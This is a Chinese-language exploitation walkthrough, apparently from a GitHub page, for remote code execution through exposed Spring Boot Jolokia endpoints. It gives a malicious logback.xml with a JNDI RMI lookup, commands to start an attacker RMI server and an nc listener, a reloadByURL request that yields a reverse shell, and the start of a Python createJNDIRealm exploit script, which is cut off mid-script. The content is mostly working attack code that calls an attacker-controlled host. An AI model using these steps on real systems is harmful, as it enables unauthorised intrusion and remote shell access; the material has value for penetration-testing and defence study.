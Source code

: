 - 修改logback.xml文件内容

```
 <configuration>
  <insertFromJNDI env-entry-name="rmi://x.x.x.x:1097/jndi" as="appName" />
</configuration>
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200521223544.png)

- 把RMIServer-0.1.0.jar文件上传到公网vps上并执行

```
java -Djava.rmi.server.hostname=x.x.x.x -jar RMIServer-0.1.0.jar
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200521225901.png)

- nc监听

```
nc -lvp 6666
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200521225957.png)

- 漏洞url上访问

```
http://127.0.0.1:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/xxx.xxx.xxx.xxx!/logback.xml
```

- 反弹shell

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200521231326.png)

### Jolokia漏洞利用（RCE-createJNDIRealm方法）

>查看/jolokia/list 中存在的是否存在org.apache.catalina.mbeans.MBeanFactory类提供的createJNDIRealm方法，可能存在JNDI注入，导致远程代码执行

- python执行脚本

```
import requests as req
import sys
from pprint import pprint

url = sys.argv[1] + "/jolokia/"
pprint(url)
#创建JNDIRealm
create_JNDIrealm = {
    "mbean": "Tomcat:type=MBeanFactory",
    "type": "EXEC",
    "operation": "createJNDIRealm",
    "arguments": ["Tomcat:type=Engine"]
}
#写入contextFactory
set_contextFactory = {
    "mbean": "Tomcat:realmPath=/realm0,type=Realm",
    "type": "WRITE",
    "attribute": "contextFactory",
    "value": "com.sun.jndi.rmi.registry.RegistryContextFactory"
}
#写入connectionURL为自己公网RMI service地址
set_connectionURL = {
    "mbean": "Tomcat:realmPath=/realm0,type=Realm",
    "type": "WRITE",
```